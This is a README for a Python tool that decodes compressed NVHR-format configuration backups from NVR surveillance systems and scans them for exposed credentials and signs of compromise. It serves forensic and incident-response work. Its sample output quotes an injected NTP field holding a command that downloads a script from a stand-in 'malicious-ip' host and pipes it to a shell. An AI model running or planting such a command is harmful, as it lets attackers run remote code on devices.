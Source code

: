 # NVR Config Decoder

A Python tool for decoding compressed configuration files from Network Video Recorder (NVR) systems with NVHR header format.

## Overview

This tool was developed to decode `.bak` configuration files that use a proprietary NVHR header format with zlib compression. It can extract and analyze configuration data from surveillance NVR systems.

## Features

- **Header Detection**: Automatically detects NVHR header format
- **Zlib Decompression**: Handles zlib-compressed configuration data
- **Flexible Offset Handling**: Tries multiple offsets if standard decompression fails
- **Security Analysis**: Built-in analysis to detect:
  - Exposed credentials (usernames/passwords)
  - Potential command injection attempts
  - External URLs and suspicious entries
- **Command Line Interface**: Easy-to-use CLI with multiple options

## Installation

No special installation required. Just ensure you have Python 3.x installed.

```bash
git clone https://github.com/random-robbie/nvr_decoder.git
cd nvr_decoder
chmod +x nvr_config_decoder.py
```

## Usage

### Basic Usage

```bash
# Decode a config file
python3 nvr_config_decoder.py config.bak

# Decode with security analysis
python3 nvr_config_decoder.py config.bak -a

# Specify custom output file
python3 nvr_config_decoder.py config.bak -o decoded_config.txt -a

# Show more preview text
python3 nvr_config_decoder.py config.bak -p 1000
```

### Command Line Options

```
usage: nvr_config_decoder.py [-h] [-o OUTPUT] [-a] [-p PREVIEW] input

Decode NVR configuration files

positional arguments:
  input                 Input .bak file to decode

options:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output file for decoded config
  -a, --analyze         Perform security analysis on decoded config
  -p PREVIEW, --preview PREVIEW
                        Number of characters to preview (default: 500)
```

## File Format

The tool handles files with the following structure:
- **Header**: NVHR1.03 followed by metadata (first 20 bytes)
- **Compressed Data**: zlib-compressed configuration starting at offset 0x14

## Security Analysis Features

The built-in security analysis will flag:

- **Credentials**: Exposed usernames and passwords
- **Command Injection**: Suspicious shell commands or script execution
- **External URLs**: HTTP/HTTPS URLs pointing to external systems
- **Malicious Entries**: Common indicators of compromise

## Example Output

```
Decoding: config.bak
Output: config.txt
--------------------------------------------------
File size: 3472 bytes
Header: b'NVHR1.03\x80\r\x00\x00\xdb\x95\x95\x89mH\x00\x00'
SUCCESS - Decompressed 18541 bytes
Saved to: config.txt

=== SECURITY ANALYSIS ===
SECURITY CONCERNS FOUND:
  ⚠️  Line 614: Username found - (username(user))
  ⚠️  Line 615: Password found - (password(password123))
  ⚠️  Line 659: Potential command injection - (ntp($&28;curl http://malicious-ip/script.sh -o- | sh&29;))
  ⚠️  Line 659: External URL - (ntp($&28;curl http://malicious-ip/script.sh -o- | sh&29;))
```

## Common Use Cases

- **Forensic Analysis**: Extracting configuration data from compromised NVR systems
- **Security Assessment**: Identifying hardcoded credentials and security misconfigurations
- **System Recovery**: Recovering configuration from backup files
- **Incident Response**: Analyzing potentially compromised surveillance systems

## Supported Systems

This tool has been tested with:
- Various NVR systems using NVHR configuration format
- Files with NVHR1.03 headers
- zlib-compressed configuration data

## Security Notice

⚠️ **Important**: Always handle configuration files securely as they may contain:
- Plain-text passwords
- Network credentials
- System configuration details
- Potentially malicious content

## Contributing

Feel free to submit issues or pull requests for improvements or additional NVR format support.

## License

This project is provided as-is for educational and security research purposes.